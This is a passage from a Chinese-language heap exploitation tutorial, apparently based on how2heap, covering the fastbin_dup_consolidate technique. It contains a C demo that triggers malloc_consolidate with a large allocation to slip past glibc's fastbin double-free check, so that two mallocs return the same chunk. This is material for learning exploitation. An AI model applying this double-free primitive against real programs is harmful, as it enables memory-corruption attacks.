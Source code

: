  ![image-20211226155944925](/assets/wgpsec/images/heap/image-20211226155944925.png)

最后可以看到我们已经分配栈上的内存，并写入了数据GGGGGGGG。

 ![image-20211226155950519](/assets/wgpsec/images/heap/image-20211226155950519.png)

## fastbin_dup_consolidate

这个程序展示了利用在large bin的分配中malloc_consolidate 机制绕过 fastbin对double free的检查，这个检查在 fastbin_dup中已经展示过了，只不过它利用的是在两次 free 中间插入一次对其它chunk的free。

​    源码如下。

 ```c
 #include <stdio.h>
 #include <stdint.h>
 #include <stdlib.h>
 #include <string.h>
 
 int main() {
     void* p1 = malloc(0x10);
     strcpy(p1, "AAAAAAAA");
     void* p2 = malloc(0x10);
     strcpy(p2, "BBBBBBBB");
     fprintf(stderr, "申请两个 fastbin 范围内的 chunk: p1=%p p2=%p\n", p1, p2);
     fprintf(stderr, "先 free p1\n");
     free(p1);
     void* p3 = malloc(0x400);
     fprintf(stderr, "去申请 largebin 大小的 chunk，触发 malloc_consolidate(): p3=%p\n", p3);
     fprintf(stderr, "因为 malloc_consolidate(), p1 会被放到 unsorted bin 中\n");
     free(p1);
     fprintf(stderr, "这时候 p1 不在 fastbin 链表的头部了，所以可以再次 free p1 造成 double free\n");
     void* p4 = malloc(0x10);
     strcpy(p4, "CCCCCCC");
     void* p5 = malloc(0x10);
     strcpy(p5, "DDDDDDDD");
     fprintf(stderr, "现在 fastbin 和 unsortedbin 中都放着 p1 的指针，所以我们可以 malloc 两次都到 p1: %p %p\n", p4, p5);
 }
 ```

​    运行结果。

 ![image-20211226160121021](/assets/wgpsec/images/heap/image-20211226160121021.png)

​    首先分配两个fastbin范围内的chunk。

 ![image-20211226160125949](/assets/wgpsec/images/heap/image-20211226160125949.png)

​    释放掉p1，则空闲的chunk进入fastbin

 ![image-20211226160131326](/assets/wgpsec/images/heap/image-20211226160131326.png)
